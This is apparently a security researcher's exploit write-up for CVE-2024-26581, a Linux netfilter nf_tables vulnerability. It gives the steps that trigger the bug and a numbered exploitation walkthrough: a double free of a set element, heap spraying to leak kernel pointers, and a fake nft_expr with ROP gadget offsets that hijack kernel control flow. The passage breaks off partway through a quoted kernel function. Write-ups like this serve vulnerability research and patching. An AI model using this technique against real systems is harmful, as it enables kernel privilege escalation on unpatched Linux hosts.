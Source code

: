 
## Triggering the vulnerability

- Create a rbtree set `A` with flag `NFT_SET_TIMEOUT` and `NFT_SET_INTERVAL`
- Insert an set element in set `A` with flag `NFTA_SET_ELEM_EXPIRATION` and `NFTA_SET_ELEM_TIMEOUT`  
- Insert another set element in set `A` with flag `NFT_SET_ELEM_INTERVAL_END`(in this step we will finally call `nft_rbtree_gc_elem`)
- Send some error command to trigger function `__nf_tables_abort`

By the way, we need to send the command of step 3 and step 4 together to trigger the vulnerabiltiy.

## Exploit it

### LTS

#### Steps
Exploit CVE-2024-26581 is the same as exploit [CVE-2024-1085](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2024-1085_lts/docs/exploit.md) on LTS instances.

- 1. Create a pipapo set `A`, and a catchall set element `B` in it.
- 2. Trigger the vulnerability by following messages:
   
   ```c
    msg_list[0] = del_setelem_msg(table, pipapo_set, NULL, 0, NULL, 0, 1);//delete the catchall set element first time
    msg_list[1] = del_table_msg(test_table);//kfree another heap to avoid crash
    msg_list[2] = del_setelem_msg(table, pipapo_set, NULL, 0, NULL, 0, 1);//delete the catchall set element second time
    send_msg_list(socket, msg_list, 3);
   ```
   	After this we kfree the catchall set element `B` twice. This makes it possiable that we alloc the heap back twice.
- 3. Try to alloc the heap of the catchall set element `B` back by creating `nft_table` with `NFTA_TABLE_USERDATA`. Keep allocing heap, and each time you alloc a heap, check whether the heap has been alloced for(confirmed by whether the memory of the already created heap has been modified). After this step, We will find two `nft_table` with the same `udata`. We assume that the two `nft_tables` are `nft_table C` and `nft_table D`.
- 4. Delete `nft_table C`.
- 5. Spray heap to reclaim `nft_table C->udata`. I spray heap by creating set element with `NFTA_SET_ELEM_EXPR` because I want to leak the `ops` pointer of the `nft_expr`.
- 6. Dump `nft_table D`. Now we leak `nft_last_ops`.
- 7. Create another set element `E`. Then dump the `nft_table D` again. We can get the pointer of the set element `E` because each bitmap set element has a doubly linked list.
  ```c
  struct nft_bitmap_elem {
	struct list_head	head;
	struct nft_set_ext	ext;
	};
  ```
- 8. Delete set element `E`. Fill the heap memory of set element `E` through heap spraying.
  ```c
    //ops->dump
    *(uint64_t *)&pad[0x40] = kernel_off + 0xffffffff810b9f43;//leave ; ret
    //ops->type
    *(uint64_t *)&pad[0x78] = kernel_off + 0xFFFFFFFF83967420;//last type
    spray_tables(socket,0x200, pad, 0x80);
  ```
- 9. Delete `nft_table D`, which will cause a UAF on a set element from step 5.
- 10. Fill the heap memory of `nft_table D ->udata` with fake `nft_expr` and ROP gadget.
- 11. Dump the set elements we create in step 5. Finally we will jmp to our ROP gadget.
    ```c
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))